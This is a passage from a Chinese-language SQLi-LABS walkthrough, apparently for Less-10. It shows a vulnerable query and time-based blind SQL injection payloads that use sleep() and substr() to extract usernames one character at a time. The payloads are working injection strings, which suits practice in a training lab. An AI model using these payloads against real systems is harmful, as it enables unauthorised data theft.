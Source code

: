 ```sql
select column1, column2, column3 from users where id = "$id" limit 0, 1;
```

+ 直接将Less-9的注入成功的payload拿来使用：

```sql
?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0) --+
```

+ 现在我们已经成功注入了。我们可以依靠Less-8的方法进行猜出数据。

```sql
# 查询第一位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='a',sleep(3),0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='b',sleep(3),0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),1,1)='d',sleep(3),0) --+

# 查询第二位数据
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='a',sleep(3),0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='b',sleep(3),0) --+
# 错误
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='c',sleep(3),0) --+
...
# 正确
/?id=1" and 1=if(substr((select group_concat(username) from users),2,1)='u',sleep(3),0) --+
```

## Less-11 基于错误的字符串

![image-20210926165317443](../../images/SQLi-LABS/image-20210926165317443.png)
